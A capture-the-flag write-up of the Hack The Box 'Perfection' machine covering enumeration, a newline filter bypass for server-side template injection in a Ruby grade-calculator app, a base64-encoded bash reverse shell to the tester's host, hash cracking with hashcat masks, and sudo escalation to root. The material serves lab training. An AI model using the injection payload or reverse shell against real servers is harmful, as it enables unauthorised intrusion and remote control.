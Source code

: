 ```yaml
---
title: HTB - Perfection
date: 2024-07-07 00:00:00 + 1000
categories: [Web App, CTF,HTB]
tags: [htb,WebExploitation, SSTI, SQLite]
comments: false
---
```


The Perfection HTB easy rated-machine which involved exploiting a Server-Side Template Injection (SSTI) vulnerability in a web app to gain initial access as the "susan" user. Credentials were then cracked using Hashcat to gain root privileges via `sudo`

## Common Enumeration
### Namp

Running the `nmap -p- -sC -sV -oA recon/allport 10.10.11.253 --open` - Found two ports: SSH (port 22) and HTTP (port 80) and The HTTP service was running Nginx

```bash
$ nmap -p- -sC -sV -oA recon/allport 10.10.11.253 --open
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-30 17:15 AEST
Nmap scan report for 10.10.11.253
Host is up (0.0059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
```

### Gobuster

Gobuster - Nothing interesting found 

```bash
$ gobuster dir -u http://10.10.11.253 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.253
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 3827]
/.                    (Status: 200) [Size: 3842]
Progress: 43007 / 43008 (100.00%)
===============================================================
Finished
===============================================================
```

### Web Reconnaissance

Browsing to the `http://10.10.11.253/` brings up a simple home page but then I noticed `/weighted-grade-calc`, a path that looked like a juicy target

![img](/assets/img/Perfection/1.webp)

The page mentioned it was powered by WEBrick 1.7.0, a Ruby web server. A quick Google search for "WEBrick vulnerabilities" turned up some interesting results. I found a known Server-Side Template Injection (SSTI) vulnerability in that version - [webrick vulnerabilities](https://security.snyk.io/package/rubygems/webrick)

![img](/assets/img/Perfection/2.webp)

I tried a few common SSTI payloads, but they were blocked

![img](/assets/img/Perfection/3.webp)

After a bit more digging, I stumbled upon a [technique for bypassing](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/) regular expression checks, using a newline character (`%0A`). I tried it out, and... success!

![img](/assets/img/Perfection/4.webp)

## Shell as Susan

Now that I had a way to bypass the web app's defenses, I set up a listener on my machine, crafted a reverse shell payload, and injected it into the web app

```bash
a%0A<%25%3d+`echo+L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjkvMTMzNyAwPiYx|base64+-d|bash`+%25>
```

It worked! I had a shell as a user named "susan". It was a good start

```bash
$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.11.253] 41800
bash: cannot set terminal process group (991): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ whoami
whoami
susan
bash-5.1$ 
```

I upgraded my shell to a more interactive one using Python

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

user.txt

```text
b6958b4e.....
```

### Enumeration for Privilege Escalation

So looking at Susan's home directory I see two juicy folders: `Migration` and `ruby_app`

```bash
bash-5.1$ ls
Migration  ruby_app  user.txt
bash-5.1$ 
```

BAM! A SQLite database named `pupilpath_credentials.db`. This is looking promising

```bash
bash-5.1$ ls
pupilpath_credentials.db
bash-5.1$ 
```

I opened the database and found a hash, which looked like it might be a user password. I needed to crack it

```bash
sqlite> select * from users;
1|Susan Miller|abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f
2|Tina Smith|dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57
3|Harry Tyler|d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393
4|David Lawrence|ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a
5|Stephen Locke|154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8
sqlite> 
```

So I've uploaded and fired up `linpeas` and it spat out a juicy nugget: `/var/mail/susan`

```bash
bash-5.1$ pwd
/var/mail
bash-5.1$ ls
susan
bash-5.1$ cat susan 
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
bash-5.1$ 
```

Alright, So I've got this password pattern: "{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}". Classic password pattern, easy for the user but ripe for cracking

```bash
$ hashcat -m 1400 hash -a 3 -d 1 susan_nasus_?d?d?d?d?d?d?d?d?d --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

And there it is! `hashcat` spits out the password: `susan_nasus_413759210`
## Shell as root

I checked Susan's `sudo` configuration to see if she had any permissions to run commands as root

```bash
-bash-5.1$ sudo -l
Matching Defaults entries for susan on perfection:
   env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
   (ALL : ALL) ALL
```

I used `sudo su` and I am in!

```bash
-bash-5.1$ sudo su
root@perfection:/home/susan# whoami
root
root@perfection:/home/susan# cat /root/root.txt 
d64491fa.....
root@perfection:/home/susan# 
```

root.txt

```text
d64491fa.....
```